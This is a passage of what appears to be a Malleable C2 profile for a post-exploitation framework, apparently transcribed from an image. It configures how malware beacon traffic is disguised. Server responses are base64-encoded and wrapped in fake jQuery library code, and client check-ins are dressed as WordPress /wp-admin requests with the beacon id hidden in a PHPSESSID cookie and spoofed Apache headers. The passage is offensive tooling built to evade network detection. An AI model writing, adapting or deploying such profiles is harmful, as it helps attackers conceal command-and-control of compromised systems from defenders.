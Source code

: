 ```

		}

	}

	server {

		header "Server" "Apache/2.4.39 (Unix)";
		header "Content-Type" "application/javascript; charset=utf-8";

		output {

			base64;
			prepend "/*! jQuery v2.1.3 | (c) 2005, 2014 jQuery Foundation, Inc. | jquery.org/license */!function(a,b){\"object\"==typeof module&&\"object\"==typeof module.exports?module.exports=a.document?b(a,!0):function(a)";
			append "var nc=a.jQuery,oc=a.$;return n.noConflict=function(b){return a.$===n&&(a.$=oc),b&&a.jQuery===n&&(a.jQuery=nc),n},b||(a.jQuery=a.$=n),n});";
			print;

		}
	}
}

http-post {

	set uri "/wp-admin";

	client {

		header "Accept-Language" "zh-CN,zh;q=0.9,en;q=0.8";
		header "Cookie" "wordpress_test_cookie=WP+Cookie+check";

		id {

			base64;
			prepend "PHPSESSID=";
			header "Cookie";
		
		}

		output {

			base64;
			print;

		}
	}

	server {

		header "Server" "Apache/2.4.39 (Unix)";
		header "Content-Type" "text/html; charset=UTF-8";

		output {

			base64;
			print;

		}
	}
}

```